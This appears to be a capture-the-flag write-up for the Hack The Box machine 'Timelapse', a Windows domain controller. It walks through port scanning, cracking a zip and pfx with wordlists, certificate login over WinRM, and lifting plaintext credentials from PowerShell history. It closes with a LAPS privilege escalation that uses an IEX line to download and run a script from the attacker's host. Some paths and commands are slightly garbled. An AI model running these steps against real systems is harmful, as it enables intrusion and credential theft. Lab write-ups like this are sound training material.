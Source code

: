 ## Enumeration
---
title: Timelapse Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---

```java
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-02-07 18:36:24Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ldapssl?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open globalcatLDAPssl?
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
|_Not valid before: 2021-10-25T14:05:29
|_Not valid after: 2022-10-25T14:25:29
|_ssl-date: 2023-02-07T18:37:54+00:00; +7h59m59s from scanner time.
|_ tls-alpn: 
|_ http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open msrpc Microsoft Windows RPC
49695/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
| 311: 
|_ Message signing enabled and required
| smb2-time: 
| date: 2023-02-07T18:37:16
|_ start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
```

## User Exploit

We connect via `smbclient` to the Shares and we can see a file called winrm_backup.zip, so we go to download it.

But we are asked for a password to download it, so we are going to use `john` : 
```shell
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
supremelegacy (winrm_backup.zip/legacyy_dev_auth.pfx)     
Session completed. 
```

Unzipping the .zip will leave us with a pfx file, which we have to crack again using `crackpkcs12`:
```shell
crackpkcs12 -b -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
*********************************************************
Dictionary attack - Thread 9 - Password found: thuglegacy
*********************************************************
```

And we get the key:
```shell
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
openssl openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

And as port 5985 is open, let's connect via WinRM to the victim machine
```shell
evil-winrm -i 10.129.165.115 -c cert.pem -k priv-key.pem -S
```

Once inside, let's read the history:
```PowerShell
C:\Usersers documentation> type $env:APPDATA\MicrosoftWindows\PowerShell\PsReadLine\ConsoleHost_history.txt
```

Which reports the following information:
```PowerShell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```

So we can get some credentials: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`.

So we are going to use them to login again by evil-winrm

```shell
evil-winrm -i 10.129.165.115 -u svc_deploy -p ``E3R$Q62^12p7PLlC%KWaxuaV` -S
```

Once inside, let's see which group the svc_deploy user belongs to:
```powershell
net user svc_deploy 
```
And we see that we put:

```powershell
Local Group Memberships *Remote Management Use
Global Group memberships *LAPS_Readers *Domain Users
```

## Root Exploit

As we are part of LAPS_Readers, we are going to use it for privilege escalation. To do this, we download it on our local machine and pass it to the windows:
```powershell
C:\Usershell> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.46:8000/Get-LAPSPasswords.ps1')
```

And we simply execute it, and we will be able to see the credentials.

Let's see if the password is valid for the Administrator user:
```shell
crackmapexec smb 10.129.165.115 -u 'Administrator' -p 'xiTR4G}SJ!;@8965dpv}51f-'
```

And we see that it is, so we are going to connect through `evil-winrm` and we will be able to see the root flag on the desktop of the TRX user. 

